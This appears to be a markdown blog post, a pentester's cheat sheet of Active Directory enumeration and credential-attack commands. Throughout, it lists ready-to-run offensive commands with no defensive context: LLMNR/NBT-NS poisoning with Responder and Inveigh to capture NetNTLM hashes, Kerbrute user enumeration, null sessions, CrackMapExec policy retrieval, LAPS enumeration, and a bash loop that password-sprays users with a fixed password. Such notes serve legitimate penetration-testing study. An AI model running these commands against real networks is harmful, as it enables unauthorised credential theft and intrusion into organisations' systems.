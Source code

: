 ```yaml
---
layout: post
title: Commands & Hacks - Enumeration Tricks
toc: true
subtitle: Linux
comments: false
---
```


<b>Enumeration Tricks:</b> <br>

TCPdump:
```
tcpdump -i <interface>
```

Responder for DNS requests to identify unique hosts

Responder for LLMNR over UDP 5535 OR NBT-NS over UDP 137 to obtain NetNTLM Hash
```
responder -I <interface> -A
```

Fping Active Checking a Subnet:
```
fping -asgq 172.11.5.0/23
```
Enumerate hosts:
```
netdiscover -r <subnet> | awk '{print $1}'
```

Enumerate AD Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Using Inveigh for LLMNR/NBT-NS request poisoning
```
Import-Module .\inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
With valid domain credentials, Using CrackMapExec to obtain the password policy
```
crackmapexec smb 172.10.5.5 -u <user> -p <password> --pass-pol
```
Establishing a null session from windows
```
net use \\DC01\ipc$ "" /u:""
```
View windows account errors:
```
net use \\DC01\ip$ "" /u:guest
```
Internal Password Spraying through Linux:
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <dc> | grep Authority; done
```

Microsoft LAPS Enumeration:
```
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
Get-LAPSComputers
```
If SMB Null sessions, use rpcclient to enumerate AD:
```
rpcclient -U "" -N <dc>
```

RPCClient Enumeration:
```
enumdomusers
queryuser 0x444
```

